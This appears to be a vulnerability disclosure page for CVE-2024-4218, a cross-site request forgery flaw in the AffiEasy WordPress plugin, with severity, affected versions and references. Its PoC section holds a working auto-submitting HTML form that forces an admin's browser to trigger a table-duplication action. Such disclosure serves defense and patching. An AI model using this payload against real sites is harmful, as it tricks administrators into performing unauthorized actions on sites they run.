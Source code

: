 ```yaml
---
layout: page
title: CVE-2024-4218
subtitle: AffiEasy <= 1.1.7 - Cross-Site Request Forgery to Various Actions
---
```

## Description
The AffiEasy plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.7. This is due to plugin improperly releasing the tagged and patched version of the plugin - the vulnerable version is used as the core files, while the patched version was included in a 'trunk' folder. This makes it possible for unauthenticated attackers to perform a variety of actions via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 6.5 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N)

## Affected Version
    <= 1.1.7

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="affieasy&#45;table" />
      <input type="hidden" name="action" value="duplicate&#45;table" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/affieasy/tags/1.1.6
- https://www.cve.org/CVERecord?id=CVE-2024-4218
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/affieasy/affieasy-117-cross-site-request-forgery-to-various-actions






